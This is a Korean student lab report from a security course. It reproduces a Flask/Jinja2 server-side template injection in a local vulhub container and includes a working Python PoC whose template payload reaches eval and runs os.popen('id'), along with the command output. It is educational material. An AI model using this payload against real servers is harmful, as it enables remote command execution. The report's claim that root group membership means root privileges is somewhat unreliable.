 # Flask (Jinja2) SSTI 취약점 검증 및 PoC 실습 보고서
> 화이트햇 스쿨 3기 - 최아현(5975)

<br/>

## 1. SSTI 개념 증명 해보기 (poc코드 수정 전)

위의 깃허브링크에서 **Flask (Jinja2) SSTI (Server Side Template Injection) 취약점**을 선택하였고, 해당 깃허브 링크를 fork해서 내 github에 복사하였다.

### 1.1 실습 환경 구축

- docker desktop 설치
- Git-2.49.0-64-bit 설치
- python 3.13.3 도 설치
  
<br/>

### 1.2 프로젝트 clone 및 실행
다음 명령어를 통하여 내 GitHub에서 Fork된 kr-vulhub 클론한 뒤 해당 폴더로 이동하였다.
1. git clone https://github.com/ChoiAh/kr-vulhub.git
2. cd kr-vulhub/Flask/SSTI

### 1.3 Docker로 Flask 서버 실행하기
docker-compose up -d 명령어를 통하여 
![docker-compose up -d 실행결과](./1.png)
<br/>


### 1.4 브라우저에서 flask 서버 접속
![서버 접속 실행결과](./1.png)
1. http://localhost:8000/?name={{7*7}} → Hello 49 출력 확인
2. http://localhost:8000/?name={{5*5}} → Hello 25 출력 확인
### 1.5 출력 결과 분석
이건 서버가 내가 입력한 것을 내부에서 파이썬 연산처럼 처리했다는 , Flask 서버가 이걸 Jinja2 템플릿 문법으로 처리해서 7 * 7 = 49 계산한 결과를 보여주는 것, 서버가 사용자의 입력을 코드로 실행한 것 = SSTI 발생! 템플릿 엔진이 입력된 수식을 그대로 실행한 결과를 보여주고 이는 SSTI취약점이 존재함을 의미

## 2. 공격코드 (poc.py) 실행
Flask 서버에 실제 시스템 명령어 삽입하기 (PoC 수행)
<br/>

### 2.1 poc.py 작성
vs code에서 C:\Users\chloe\kr-vulhub\Flask\SSTI 이 경로에 poc.py라는 이름의 py파일을 생성하고 아래의 코드를 입력해 넣었다.
```python
from urllib import parse
import requests

script = '__import__("os").popen("id").read()'
# SSTI 취약점 유발 코드
value = """{% for c in [].__class__.__base__.__subclasses__() %}
{% if c.__name__ == 'catch_warnings' %}
  {% for b in c.__init__.__globals__.values() %}
  {% if b.__class__ == {}.__class__ %}
    {% if 'eval' in b.keys() %}
      {{ b['eval']('%s') }}
    {% endif %}
  {% endif %}
  {% endfor %}
{% endif %}
{% endfor %}"""
value = value.replace("%s", script)

print("<SSTI 취약점 유발 코드>")
print(value)
print()

# SSTI를 수행하는 URL 생성
query = [("name", value)]
url = "http://localhost:8000/?" + parse.urlencode(query)
print("<요청 URL>")
print(url)
print()

# 실제 요청 전송
response = requests.get(url)
print("<서버의 응답>")
print(response.text)
```
![vs code로 poc.py작성](./3.png)
<br/>
### 2.2 poc.py 실행
py poc.py명령을 통하여 위에서 작성한 코드를 실행해보았다.
![poc.py 실행결과](./4.png)
위의 사진처럼 출력이 되었다.

 > uid=33(www-data) gid=33(www-data) groups=33(www-data),0(root)
### 2.3 출력값의 의미
- uid=33(www-data)  → 현재 FLASK서버가  uid=33(www-data) 계정으로 실행중이라는 의미
- gid=33(www-data) →   현재 FLASK서버가  gid=33(www-data) 그룹 계정으로 실행중이라는 의미
- groups=33(www-data),0(root) → 이서버는 root권한도 가지고 있다는 뜻

### 1.5 출력 결과 분석
즉, 템플릿 인젝션으로 서버에서 임의 시스템 명령어 실행이 가능했고 실행된 결과로 서버 내부 계정 정보를 탈취할 수 있었다. 따라서 결과적으로 해당 flask 서버의 제어권한을 획득할 수 있었다. 
서버에서  os명령어가 실행되었고 해당 flask 서버가 root권한을 포함하고 있는 것을  확인할 수 있음


## 3. 결론

[poc.py](http://poc.py) 스크립트를 통하여 SSTI취약점이 존재하는 FLASK서버에 악의적인 템플릿 코드(`__import__("os").popen("id").read()` 명령어를 실행하는 코드 )를 삽입하였다. 따라서 서버는 해당 코드를 실행하여 현재 사용자의 UID, GID, groups를 알려주었다. 이 실습을 통하여 flask서버의 stti 취약점을 통하여 원격 코드 실행 수준의 제어가 가능함을 확인할 수 있었다. 공격자는 `name` 파라미터에 Jinja2 템플릿 문법을 삽입함으로써 서버 측에서 Python 코드가 실행되도록 유도함, 이를 통해 단순 수식 평가뿐 아니라 시스템 명령어(`id`)까지 실행할 수 있었으며, 서버의 UID, GID 정보가 노출됨, 이는 명백한 SSTI 취약점으로, 상황에 따라 **원격 명령 실행(RCE)** 으로 이어질 수 있는 심각한 보안 위협임
